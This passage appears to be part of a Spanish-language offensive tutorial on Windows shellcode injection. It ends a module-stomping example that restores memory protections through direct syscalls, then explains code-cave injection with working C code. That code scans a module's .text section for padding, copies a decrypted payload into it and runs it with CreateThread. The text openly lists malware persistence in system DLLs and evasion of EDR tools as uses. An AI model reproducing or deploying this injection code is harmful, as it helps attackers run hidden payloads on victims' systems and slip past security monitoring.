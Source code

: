 ```c
CloseHandle(hThread);

// Restaurar protecciones
HellDescent(NtCurrentProcess(), &textAddr, &textSize, oldProtect, &oldProtect);
```

Explicación: Integra syscalls para protecciones y hilos, desencripta dinámicamente. Riesgos: Si payload > .text, crash; EDRs detectan via memory scans.

**Casos de Uso Avanzados:**
- En malware: Persistencia en DLLs del sistema.
- Benchmarks: Setup ~10ms; ejecución sigilosa.

Esta técnica, aunque no común, es un pilar en HookStomp para inyecciones avanzadas.

#### Code Caves

Buscar espacios libres.

Code caves son áreas de memoria no utilizadas en módulos, como padding entre funciones. La técnica busca estos espacios, inyecta payload, y ejecuta.

Mecanismo Detallado:
- Parsear PE de un módulo.
- Escanear .text por secuencias de NOPs o zeros.
- Verificar tamaño suficiente para payload.
- Inyectar shellcode en la cave.
- Ejecutar via puntero a la cave.

Ventajas: Menos disruptivo que stomping; no sobrescribe código funcional. Desventajas: Caves pueden ser pequeñas; requiere búsqueda precisa.

Implementación Genérica:
- Usar sigscanning para encontrar caves (e.g., 00 00 00 ...).
- Inyectar y ejecutar.

Ejemplos de Código:
```c
// Code cave injection
PVOID FindCodeCave(HMODULE hModule, SIZE_T minSize) {
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)hModule;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)dos + dos->e_lfanew);
    PIMAGE_SECTION_HEADER textSec = IMAGE_FIRST_SECTION(nt);
    
    PBYTE textStart = (PBYTE)hModule + textSec->VirtualAddress;
    SIZE_T textSize = textSec->Misc.VirtualSize;
    
    for (SIZE_T i = 0; i < textSize - minSize; i++) {
        BOOL isCave = TRUE;
        for (SIZE_T j = 0; j < minSize; j++) {
            if (textStart[i + j] != 0x00 && textStart[i + j] != 0x90) { // NOP or zero
                isCave = FALSE;
                break;
            }
        }
        if (isCave) return &textStart[i];
    }
    return NULL;
}

// Usage
PVOID caveAddr = FindCodeCave(hModule, payloadSize);
if (caveAddr) {
    memcpy(caveAddr, decryptedPayload, payloadSize);
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)caveAddr, NULL, 0, NULL);
    // ...
}
```